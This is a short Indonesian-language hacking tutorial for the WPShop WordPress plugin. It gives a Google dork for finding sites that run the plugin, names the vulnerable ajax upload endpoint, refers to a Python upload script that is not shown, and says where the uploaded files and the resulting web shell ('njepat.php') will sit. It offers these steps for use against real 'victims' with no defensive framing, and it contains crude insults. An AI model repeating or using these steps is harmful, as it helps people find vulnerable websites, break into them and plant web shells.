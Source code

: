 Google Dork :
inurl:?wpshop_product_category=
Use your brain, bitch !

Vuln Victim :
/wp-content/plugins/wpshop/includes/ajax.php?elementCode=ajaxUpload

Simpan script Python diatas dalam bentuk python.
Ganti url target dengan target vuln.

Setelah itu buka url target :
http://localhost/wp-content/uploads/out.php
Selanjutnya buka lagi shell kalian akan berada di :
http://localhost/wp-content/uploads/njepat.php
Sekian tutor kali ini semoga bermanfaat.
